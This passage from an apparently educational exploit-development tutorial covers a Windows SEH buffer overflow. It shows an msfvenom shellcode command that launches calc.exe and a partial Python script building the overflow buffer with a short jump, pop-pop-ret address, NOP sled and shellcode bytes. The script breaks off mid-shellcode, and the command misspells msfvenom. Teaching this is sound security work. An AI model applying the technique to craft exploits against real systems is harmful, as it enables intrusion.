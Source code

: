 Notice we have added to NOP’s to our short jump in order to make it a full 4 bytes. Now when we
generate our payload and pass it to the application again we should wind up landing in our buffer of C’s.
X64dbg with EIP pointing into C’s buffer.

<p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/landed-in-Cs.PNG"/></p> 
<p align="center"><i>X64DBG with EIP pointing into buffer of C's.</i></p>

Now that we can redirect execution into an area of memory we control, we can start crafting our
payload. Initially we will replace our “C”s with NOPs and we will use MSFVenom to create our payload.

<p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/msfvenom.PNG"/></p> 
<p align="center"><i>Output of MSFVenom.</i></p>

**Command:**
```
msfvemon -a x86 -p windows/exec CMD=calc.exe -b ‘\x00\x0A\x0D’ -f python
```

As in the last article we will add a small NOP sled to the start of our payload in order to add some
stability to our exploit. After the NOP sled we append our payload making the final exploit code look
something like the following:
```
f = open("crash-6.txt", "wb")

buf = b"\x41" * 1008
buf += b"\xEB\x0B\x90\x90"
buf += b"\xc8\x12\x74\x63" #637412c8 pop edi, pop ebp, ret
buf += b"\x90" * 50 #NOP Sled

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
buf += b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
buf += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
buf += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
```